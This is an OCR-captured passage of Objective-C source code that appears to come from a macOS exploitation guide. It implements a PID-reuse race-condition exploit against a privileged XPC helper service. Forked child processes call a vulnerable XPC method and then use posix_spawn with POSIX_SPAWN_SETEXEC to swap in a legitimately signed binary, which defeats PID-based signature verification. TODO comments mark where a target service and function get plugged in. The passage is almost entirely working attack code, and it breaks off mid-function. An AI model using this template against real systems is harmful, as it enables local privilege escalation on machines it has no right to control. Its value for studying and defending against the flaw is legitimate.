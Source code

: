 ```objectivec
return NULL;
}

void child_xpc_pid_rc_abuse(){
// TODO: INDICATE A VALID BIN TO BYPASS SIGN VERIFICATION
#define kValid "./Legit Updater.app/Contents/MacOS/Legit"
extern char **environ;

// Connect with XPC service
// TODO: CHANGE THE ID OF THE XPC TO EXPLOIT
NSString*  service_name = @"com.example.Helper";
NSXPCConnection* connection = [[NSXPCConnection alloc] initWithMachServiceName:service_name options:0x1000];
// TODO: CNAGE THE PROTOCOL NAME
NSXPCInterface* interface = [NSXPCInterface interfaceWithProtocol:@protocol(HelperProtocol)];
[connection setRemoteObjectInterface:interface];
[connection resume];

id obj = [connection remoteObjectProxyWithErrorHandler:^(NSError* error) {
NSLog(@"[-] Something went wrong");
NSLog(@"[-] Error: %@", error);
}];

NSLog(@"obj: %@", obj);
NSLog(@"conn: %@", connection);

// Call vulenrable XPC function
// TODO: CHANEG NAME OF FUNCTION TO CALL
[obj DoSomething:^(_Bool b){
NSLog(@"Response, %hdd", b);
}];

// Change current process to the legit binary suspended
char target_binary[] = kValid;
char *target_argv[] = {target_binary, NULL};
posix_spawnattr_t attr;
posix_spawnattr_init(&attr);
short flags;
posix_spawnattr_getflags(&attr, &flags);
flags |= (POSIX_SPAWN_SETEXEC | POSIX_SPAWN_START_SUSPENDED);
posix_spawnattr_setflags(&attr, flags);
posix_spawn(NULL, target_binary, NULL, &attr, target_argv, environ);
}

/**
* Function to perform the PID race condition using children calling the XPC exploit.
*/
void xpc_pid_rc_abuse() {
#define RACE_COUNT 1
extern char **environ;
int pids[RACE_COUNT];

// Fork child processes to exploit
for (int i = 0; i < RACE_COUNT; i++) {
int pid = fork();
if (pid == 0) {  // If a child process
child_xpc_pid_rc_abuse();
}
printf("forked %d\n", pid);
pids[i] = pid;
}

// Wait for children to finish their tasks
```
